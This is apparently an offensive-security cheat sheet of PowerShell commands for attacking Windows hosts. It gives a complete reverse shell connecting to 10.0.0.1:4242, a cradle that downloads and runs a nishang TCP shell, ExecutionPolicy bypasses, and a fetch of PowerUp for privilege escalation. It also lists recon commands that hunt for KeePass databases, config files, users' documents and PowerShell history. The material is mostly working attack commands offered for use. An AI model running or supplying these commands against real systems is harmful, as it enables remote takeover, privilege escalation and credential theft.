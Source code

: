 ```
powershell -ExecutionPolicy Bypass -File script.ps1
```

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex(New-Object Net.WebClient).DownloadString('http://ip/Invoke-PowerShellTcp.ps1');
```

```
powershell -c "(New-Object Net.WebClient).DownloadFile('http://ip/filename.ext','C:\filelocation\filename.ext')"
```

```
Start-Service GammaService
```

```
Stop-Service GammaService
```

https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.3

**Invoke-WebRequest**

```
iwr http://kali/PowerUp.ps1 -Outfile PowerUp.ps1
```

```
powereshell -ep bypass
```

```
..\PowerUp.ps1
```

```
Get-UnquotedService
```

```
 Get-Acl -Path C:\ | Format-List
```

```
icacls .\Documents\BetaServ.exe
```

```
Get-LocalUser
```

```
Get-LocalGroup
```

```
Get-LocalGroupMember adminteam
```

```
Get-LocalGroupMember Administrators
```

```
systeminfo
```

```
ipconfig /all
```

```
route print
```

```
netstat -ano
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

```
Get-History
```

```
(Get-PSReadlineOption).HistorySavePath
```


